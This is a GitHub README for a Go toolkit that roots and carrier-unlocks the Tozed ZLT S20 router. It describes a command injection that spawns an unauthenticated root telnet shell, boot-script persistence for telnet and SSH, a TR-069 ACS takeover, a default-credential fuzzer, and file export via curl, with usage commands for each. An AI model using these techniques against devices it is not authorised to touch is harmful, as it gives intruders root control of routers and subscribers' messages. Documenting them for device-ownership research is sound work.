

<div align="center">


<h1>zlt_xloader</h1>

<p>
  <strong>A professional security-research &amp; device-ownership toolkit for the Tozed ZLT S20 4G router.</strong><br />
  Firmware fingerprinting, root-shell access, TR-069 role reversal and variant-aware unlocking — from one cross-platform Go binary.
</p>

<p>
  <a href="https://github.com/anusara-bemal/zlt_xloader/actions/workflows/ci.yml"></a>
  <a href="https://github.com/anusara-bemal/zlt_xloader/actions/workflows/release.yml"></a>
  
  
  
  
</p>

<p>
  
</p>

<p><em>Educational use only — do not misuse. Only on hardware you own.</em></p>

</div>

> [!WARNING]
> **EDUCATIONAL PURPOSES ONLY — DO NOT MISUSE.** This project was created for learning and lawful security research on devices you own or are explicitly authorised to test. Do not use it for unauthorised access to, or modification of, any device or network you do not own. Misuse is prohibited and may be illegal.

Also read [WARNING.md](WARNING.md) for the upstream firmware-compatibility warning.

## Overview

A security-research and device-ownership toolkit for the **Tozed ZLT S20 4G router** (firmware `S20_1.12.7`, Dialog / SLT-Mobitel variants), with additional profiles for the MTN and ORG firmware variants.

Standard ZTE tooling (`zteOnu`, `factorymode_crack`, …) does not work on this device because Tozed uses a different web API. This tool targets the Tozed-specific endpoints directly.

**Repository:** `github.com/anusara-bemal/zlt_xloader` — the Go module path matches this repository. The shipped binary is named `zlt_xloader`.

## Contents

- [Disclaimer — read before use](#disclaimer--read-before-use)
- [Project status](#project-status)
- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [How it works](#how-it-works)
- [Tuning the profile](#tuning-the-profile)
- [Project layout](#project-layout)
- [Contributing](#contributing)
- [License and copyright](#license-and-copyright)

---

## Disclaimer — read before use

> **This software is provided for lawful security research and for devices you personally own and operate.**
>
> - Only use this on hardware you own or on a device you have explicit, written permission to test.
> - Unlocking a carrier/SIM lock may breach your service contract or local law. Check your jurisdiction before proceeding.
> - Modifying router firmware can **permanently brick the device** and will almost certainly **void the warranty**.
> - Port 23 (telnet) and 8080 are closed by default. Enabling them, writing NVRAM, or pushing a TR-069 `Download` RPC can render the router unusable.
> - **There is NO WARRANTY.** You are solely responsible for any damage, data loss, or legal consequence.
> - The authors and contributors are not liable for misuse.
>
> By using this tool you accept these terms.

### Safety model

- Every mutating action runs in **dry-run mode by default** (`--dry-run=true`). Nothing is written to the device unless you explicitly pass `--dry-run=false`.
- Destructive TR-069 RPCs and UART writes additionally require interactive confirmation, or `--yes`.
- Endpoint names, `goformId` values, token salts and AT commands live in an editable JSON **profile**, so you can correct them from a packet capture without recompiling.

## Project status

The toolkit is functional and tested: `go test ./...`, `go vet ./...`, `gofmt`
and the full cross-compile matrix all pass. Behaviour documented as "verified"
was confirmed against the firmware's `service.js`; entries labelled "reported"
in the profile come from black-box testing and may not work on every firmware
build. Contributions and profile corrections are welcome — see
[CONTRIBUTING.md](CONTRIBUTING.md).

Please report security issues privately via [SECURITY.md](SECURITY.md), not in
a public issue.

---

## Features

| Command | Description |
|---|---|
| `scan` | Reachability check, TCP port scan (23/80/8080/7547) and firmware/model fingerprinting. |
| `api-exploit` | Exact `S20_1.12.7` login (`get_random_login → LOGIN → get_token`), concurrent `goformId` sweep and optional smart fuzzer. |
| `telnet` | Try the known telnet/ADB payloads in order and verify port 23. |
| `unlock` | Remove the carrier PLMN/band locks over the root shell so any SIM works. |
| `persist` | Make telnet (23) and SSH (22) start automatically at every boot. |
| `unhide` | Reveal UI pages/features hidden by the carrier firmware. |
| `optimize` | Show RF diagnostics and tune DNS / remove data-cap throttling. |
| `shell` | Interactive root shell over telnet or SSH (`--ssh`), or run one command / AT command. |
| `status` | Device, SIM, lock, signal and NVRAM status. |
| `power` | Reboot or power off the router. |
| `sms` | List stored messages and send SMS. |
| `ussd` | Send a USSD code and read the response. |
| `download` | Export a config/log file from the router through a local HTTP endpoint. |
| `tr069-exploit` | Local ACS simulator that answers CPE `Inform` messages and pushes configuration RPCs; `--set-acs` pushes the URL to the router automatically. |
| `uart-at` | Serial/UART interface for raw AT commands (`AT^NVW`, `AT+CLCK="PN",0`, …). |
| `config-decrypt` | `config.bin` container parser, entropy analysis and heuristic key discovery. |
| `version` | Version and build information. |

Global flags: `--target`, `--timeout`, `--profile`, `--dry-run`, `--verbose`, `--json`, `--yes`.

---

## Installation

### From a release

Pre-built, checksummed archives for Linux, Windows and macOS are published on
the [Releases page](https://github.com/anusara-bemal/zlt_xloader/releases).
Download the archive for your platform, verify it against the published
`checksums.txt`, and run the `zlt_xloader` binary inside it.

### From source

```bash
git clone https://github.com/anusara-bemal/zlt_xloader.git
cd zlt_xloader
go build -o zlt_xloader .
```

Requires Go 1.22 or newer.

### Cross-compile with the Makefile

```bash
make build-all VERSION=v1.0.0
# artifacts land in dist/{windows,linux,macos}/
```

Supported targets: Windows (amd64, 386), Linux (amd64, arm64, armv7), macOS (amd64, arm64).

---

## Usage

### 1. Scan the router

```bash
# Dry-run is irrelevant for read-only scan; it still fingerprints the device.
./zlt_xloader --target 192.168.1.1 scan

# Custom port list
./zlt_xloader scan --ports 23,80,8080,7547,443
```

Example output:

```
Target: 192.168.1.1  (profile: Tozed ZLT S20 1.12.7 (Dialog / SLT-Mobitel))

  tcp/23     closed
  tcp/80     OPEN
  tcp/8080   closed
  tcp/7547   OPEN

  profile     Tozed ZLT S20 1.12.7 (Dialog / SLT-Mobitel)
  firmware    S20_1.12.7
  model       ZLT S20
  acs_url     http://acs.slt.lk:7547/
  dry_run     true
```

### 2. Web API exploit (login + payload sweep + fuzzer)

```bash
# Preview only — nothing is sent to the router
./zlt_xloader api-exploit

# Log in as admin/admin, sweep profile payloads, save hits
./zlt_xloader --dry-run=false api-exploit --username admin --password admin --output hits.json

# Add the verified built-in corpus from service.js, slow down to 50ms per worker
./zlt_xloader --dry-run=false api-exploit --include-builtin --rate 50ms

# Smart fuzzer: generate PLMN/SIM/unlock/NVRAM candidates (asks for confirmation)
./zlt_xloader --dry-run=false --yes api-exploit --fuzz --fuzz-max 300 --workers 8

# Only generated fuzz payloads, with a custom keyword
./zlt_xloader --dry-run=false --yes api-exploit --fuzz-only --fuzz-keywords plmn,lock,unlock
```

All POSTs go to `/reqproc/proc_post` with `Content-Type: application/x-www-form-urlencoded`; reads go to `/reqproc/proc_get`. `CSRFToken` is sent in the form data (and as a header) exactly as `service.js` does.

Every response that is **not** `{"result":"failure"}` is reported as a hit. Unexpected bodies (HTML, errors, 200-with-data) are also surfaced — these often reveal undocumented endpoints.

> The fuzzer can write NVRAM and **brick the device**. Keep `--dry-run=true` while exploring, and only enable it on a device you can afford to lose.

### 2b. Try enabling telnet

```bash
# Preview
./zlt_xloader telnet

# Actually try the payload chain and check port 23
./zlt_xloader --dry-run=false telnet
```

The working method is a command injection in the `ids` field of the
`REMOVE_WHITE_SITE` goform. It runs `/bin/busybox telnetd -l /bin/sh` on the
router, giving a root shell on port 23. `TZ_CMD_SECURE_LOGIN` is kept as a
fallback for firmware where its handler works. The firmware's `sha256()`
returns a hex string which is then Base64-encoded, and every command needs
`isTest=false`; both are handled automatically.

### 2c. Remove the SIM/network lock

```bash
# Preview
./zlt_xloader unlock

# Apply (backs up NVRAM on the router first)
./zlt_xloader --dry-run=false --yes unlock --reboot
```

This uses the same `REMOVE_WHITE_SITE` injection as `telnet` to run `nv set`
commands as root. It clears `tz_lock_plmn_state`, `tz_lock_plmn_list`,
`tz_lock_band_state`, `tz_lock_3G_band_state`, `tz_lock_imsi_state`,
`use_lock_net` and `tz_lock_sim`, then runs `nv save` and patches the default
parameter files so the change survives a factory reset.

A backup of the original NVRAM is written to
`/tmp/zlt_xloader-nv-backup.txt` on the router. Verify with
`nv get tz_lock_plmn_state` over telnet — it should print `no`.

> `telnetd` started by `zlt_xloader telnet` is runtime-only. After a reboot,
> rerun that command to restore shell access.

### 2c-2. Make telnet and SSH permanent

```bash
./zlt_xloader --dry-run=false --yes persist --reboot
```

This appends a small block to the router's boot script `/etc/rc` to start
BusyBox telnetd (port 23) and dropbear (port 22) at every boot, and sets the
firmware's `telnetd_enable`, `adbd_enable` and `dropbear_enable` NVRAM flags.
The original boot script is backed up to `/etc/rc.zlt-backup`. The command is
idempotent. After reboot, both ports are open automatically.

ADB on this firmware only binds `127.0.0.1:5037` (host-mode) and needs USB;
network ADB on 5555 is not available without additional firmware support.

### 2c-3. Reveal hidden web UI pages

```bash
./zlt_xloader --dry-run=false --yes unhide --reboot
```

The SLT/Dialog firmware hides pages with three NVRAM bitfields:
`tz_web_page_hide`, `tz_web_user_hide` and `tz_web_special_func`, plus feature
flags such as `need_support_sms` / `need_support_ussd`. `unhide` clears the
hide bits and enables the flags, so SMS, network selection, APN and the other
pages appear in the web UI. The backend endpoints (`SEND_SMS`, `USSD_PROCESS`,
etc.) are present even when the pages are hidden.

Note: `config.js` on this build has `HAS_USSD:false`, so the USSD page may not
render even after the flags are enabled; the API itself still responds.

### 2c-4. Connection optimization

```bash
./zlt_xloader --dry-run=false --yes optimize --reboot
```

Prints live RF diagnostics (band, bandwidth, RSRP/RSRQ/SINR, PCI, SIM PLMN)
and applies what the router actually controls: DNS 1.1.1.1 / 8.8.8.8,
data-volume cap and quota alerts off, QoS off, and no band lock.

Carrier-core latency (CGNAT / roaming) cannot be changed from the router. On
this device the RF link was already healthy (Band 3, 20 MHz, SINR ~19 dB),
so remaining latency is in the operator's network, not the air interface.

### 2d. Shell, status, power, SMS, USSD and file export

```bash
# Interactive root shell (telnet is enabled automatically if closed)
./zlt_xloader shell

# One-off command, or a raw AT command
./zlt_xloader shell --command "nv get sim_plmn"
./zlt_xloader shell --at --command "AT+CSQ"

# Device / SIM / lock / signal status
./zlt_xloader status

# Power controls (destructive, need confirmation)
./zlt_xloader --dry-run=false --yes power reboot
./zlt_xloader --dry-run=false --yes power off

# SMS
./zlt_xloader --dry-run=false sms list
./zlt_xloader --dry-run=false sms send --to 0771234567 --message "hello"

# USSD
./zlt_xloader --dry-run=false ussd --code '*#123#'

# Export a file from the router to this machine
./zlt_xloader --dry-run=false --yes download \
    --remote /etc_ro/default/default_parameter_sys --local ./config.txt
```

The shell client handles Telnet IAC negotiation and supports an interactive
session. AT commands are sent with the firmware's own `/bin/at_cmd` utility
(`shell --at`). `status` reads NVRAM through the shell, so it reports the real
lock state even when the web API returns empty values. `download` starts a
local HTTP server and runs `curl -T` from the router shell — the same approach
used by the reference project.

> On Windows/Git-Bash, MSYS converts Unix-style arguments such as
> `/etc_ro/...` into Windows paths. Prefix the command with
> `MSYS_NO_PATHCONV=1` when using `--remote`.

### 2d-2. SSH shell and other firmware variants

```bash
# Interactive SSH root shell (uses the active profile's credentials by default)
./zlt_xloader --target 192.168.1.1 shell --ssh

# One command over SSH with explicit credentials
./zlt_xloader shell --ssh --user admin --password admin --command "nv get sim_plmn"

# Other firmware variants ship their own profiles
./zlt_xloader --profile ./profiles/zlt_m910w_1.13.6_mtn.json scan
./zlt_xloader --profile ./profiles/zlt_s20_1.02.7_org.json status
```

The MTN (`S20_1.13.6`) and ORG (`S20_1.02.7`) profiles carry their own
fingerprint commands, payload sets and unlock parameters, so `unlock` uses the
correct NVRAM/AT keys for those firmware variants.

### 3. TR-069 ACS simulator

```bash
# Preview: ACS answers Inform but suppresses all RPCs
./zlt_xloader tr069-exploit --rpc set-params --param InternetGatewayDevice.ManagementServer.URL --value http://192.168.1.2:7547/acs

# Real push with local config file; requires confirmation
./zlt_xloader tr069-exploit --dry-run=false --yes \
    --rpc download --serve-file ./unlock-config.bin

# Push the local ACS URL to the router automatically via setTR069Config
./zlt_xloader --dry-run=false --yes tr069-exploit --set-acs \
    --rpc set-params --param InternetGatewayDevice.ManagementServer.URL \
    --value http://192.168.1.2:7547/acs
```

The command prints the exact ACS URL. You can enter it in the router's web UI,
or let `--set-acs` push it with the `setTR069Config` goform and restart TR-069.

### 4. UART / AT commands

```bash
# List serial ports
./zlt_xloader uart-at --list

# Preview the scripted AT sequence (no port is opened)
./zlt_xloader uart-at --port COM3 --script

# Verify the AT engine end-to-end with an in-memory mock serial device
./zlt_xloader uart-at --simulate --script

# Send one raw command for real
./zlt_xloader uart-at --dry-run=false --yes \
    --port COM3 --command 'AT+CLCK="PN",0' --expect OK
```

> **Hardware warning:** the router's serial header uses **3.3V TTL** logic. Do **not** connect an RS232 adapter (±12V) — it will destroy the board. Pinouts vary by board revision; trace them before probing.

### 5. config.bin analysis

```bash
# Entropy / container report plus heuristic key search
./zlt_xloader config-decrypt --file ./config.bin --top 10 --serial <SERIAL> --imei <IMEI>

# Decrypt with a known key
./zlt_xloader config-decrypt --file ./config.bin --key 0011223344556677 --algo des-cbc --out config.dec.bin --dry-run=false
```

---

## How it works

### Login and CSRF token (verified from `service.js`)

The firmware gates state-changing requests behind a session-bound `CSRFToken`. The exact flow implemented in `internal/api/csrf.go` is:

1. `GET /reqproc/proc_get?cmd=get_random_login` → `{"random_login":"..."}`.
2. `POST /reqproc/proc_post` with `goformId=LOGIN`, `isTest=false`, `username=Base64("admin")`, `password=Base64(hex(SHA256(random_login + password)))` and an **empty** `CSRFToken`. Result codes `0` and `4` mean success.
3. Only after LOGIN succeeds, `GET /reqproc/proc_get?cmd=get_token` → `{"token":"..."}`. This is `g().token` in the firmware JS and becomes the `CSRFToken` attached to every later POST, including `TZ_CMD_SECURE_LOGIN`.

Calling `get_token` before login is rejected by this firmware with a `malformed HTTP status code "\"invalid"` error, so the tool never does it. The older `set_random → get_random → set_token` sequence remains available behind `--token-sequence` as a separate experiment, but it is not part of LOGIN. All command IDs and endpoint paths are profile-configurable.

### Payload corpus and fuzzer

`api-exploit` merges the profile's payloads with a built-in corpus. The built-in list is split into **verified** IDs recovered from `service.js` (for example `TZ_CMD_SECURE_LOGIN` for telnet/ADB, `TZ_UNLOCK_PLMN`, `UNLOCK_NETWORK`, `CLEAR_IMSI`) and **reported** IDs supplied from black-box testing (for example `SET_PLMN`, `SET_SYSTEM_INFO`) which this firmware may ignore.

`--fuzz` generates additional candidates by combining unlock-related keywords (`plmn`, `lock`, `sim`, `unlock`, `nv_write`) with known goformIds, prefix-derived IDs (`SET_`, `UNLOCK_`, `TZ_UNLOCK_`, …) and parameter sweeps. The generator is bounded by `--fuzz-max` and fully driven by the profile's `fuzz` section.

### Concurrent payload sweep

Candidate `goformId` values are queued into a bounded goroutine pool (default 16 workers, capped at 256). Each worker POSTs one command and compares the response with the canonical `{"result":"failure"}`. Hits — including unexpected non-JSON responses — are collected, logged and optionally written to JSON. An optional per-worker rate limit reduces load on the device.

### TR-069 role reversal

The router's stock ACS is `acs.slt.lk`, which means it can be managed remotely. `tr069-exploit` turns the local machine into an ACS:

1. You point the router's ACS URL at this machine.
2. The router sends a SOAP `Inform`; the tool replies with `InformResponse`.
3. On the next CPE request the tool pushes a `SetParameterValues`, `Download` or `Reboot` RPC.

The SOAP envelopes are generated with correct CWMP namespaces and XML escaping.

### UART / AT path

Software locks can sometimes be bypassed at the hardware level. `uart-at` opens a 3.3V TTL serial connection and runs a scripted AT sequence with send/expect semantics and timeouts. This path needs physical access but does not depend on the locked web API.

### Config decryption

`config.bin` is analysed as a container with a header, payload and trailing signature. A per-block Shannon-entropy report distinguishes structured data from encrypted/compressed regions. Key candidates are derived from profile constants, the device serial and IMEI, then tried against several common embedded algorithms (`xor`, `xor-add`, AES-CBC, DES-CBC) with a zero IV. Results are ranked by an entropy/printability score.

---

## Tuning the profile

Copy `profiles/zlt_s20_1.12.7.json` and pass it with `--profile`. Useful fields:

```jsonc
{
  "endpoints": {
    "post_path": "/reqproc/proc_post",
    "get_cmd_path": "/reqproc/proc_get",
    "get_token_cmd": "get_token",
    "get_random_login_cmd": "get_random_login",
    "csrf_token_header": "CSRFToken"
  },
  "login": { "username": "admin", "password": "admin" },
  "payloads": [ /* add goformIds observed in your packet capture */ ],
  "fuzz": {
    "keywords": ["plmn", "lock", "sim", "unlock", "nv_write"],
    "goform_ids": ["TZ_UNLOCK_PLMN", "UNLOCK_NETWORK", "..."],
    "values": ["0", "1", "false", "true", "y", "n"],
    "max_requests": 400
  },
  "uart": { "port": "COM3", "baud": 115200 },
  "crypto": { "known_keys": [ /* keys found in firmware */ ] },
  "unlock": {
    "backup_path": "/tmp/zlt_xloader-nv-backup.txt",
    "save": true,
    "nv": [ { "key": "tz_lock_plmn_state", "value": "no", "path": "/etc_ro/default/default_parameter_sys" } ],
    "at": [ { "key": "tz_lock_plmn_state", "value": "no", "path": "" } ]
  }
}
```

Capture a real login/session with a MITM proxy or browser devtools and mirror the exact parameter names and IDs into the profile.

---

## Project layout

```
cmd/                 Cobra commands
internal/api/        HTTP client, login/CSRF, payload corpus, fuzzer, worker pool, fingerprinting
internal/buildinfo/  Build-time version / commit / date metadata
internal/crypto/     Container parsing, entropy, key heuristics
internal/logging/    Logging setup
internal/profile/    JSON profile loading and defaults (incl. variant unlock keys)
internal/sshclient/  SSH transport for the root shell
internal/telnet/     Telnet client
internal/tr069/      ACS server, SOAP envelopes, RPC builders
internal/uart/       Serial connection and AT engine
pkg/netutil/         Port scanner and local-IP detection
pkg/out/             Output formatting
pkg/safety/          Interactive confirmation guard
profiles/            Device profiles
js_dump/             Reference firmware JS (documentation only, not compiled in)
docs/assets/         README artwork + dependency-free PNG generator

.github/workflows/   CI and tag-triggered release automation
.github/ISSUE_TEMPLATE/  Issue forms and contribution links
.goreleaser.yaml     Release archive matrix
Makefile             Build, test, coverage and release targets
SECURITY.md          Vulnerability reporting policy
WARNING.md           Educational-use and upstream compatibility warning
CONTRIBUTING.md      Development and pull-request guidelines
CHANGELOG.md         Release history
CODE_OF_CONDUCT.md   Community standards
NOTICE               Attribution and third-party dependency notices
```

---

## Contributing

Contributions are welcome. Read [CONTRIBUTING.md](CONTRIBUTING.md) for the
development workflow and [CODE_OF_CONDUCT.md](CODE_OF_CONDUCT.md) for community
standards. In short: keep device constants in profiles, add tests for new
parsers, never submit captured personal data, and run `make check` before
opening a PR.

---

## License and copyright

Copyright (c) 2026 anusara-bemal. **All rights reserved.** This is a proprietary
project; no license to use, copy, modify or distribute the source is granted
except by a separate written agreement. See [LICENSE](LICENSE) and
[NOTICE](NOTICE) for full terms and third-party attribution.

Use responsibly. Only on hardware you own or are authorised to test.
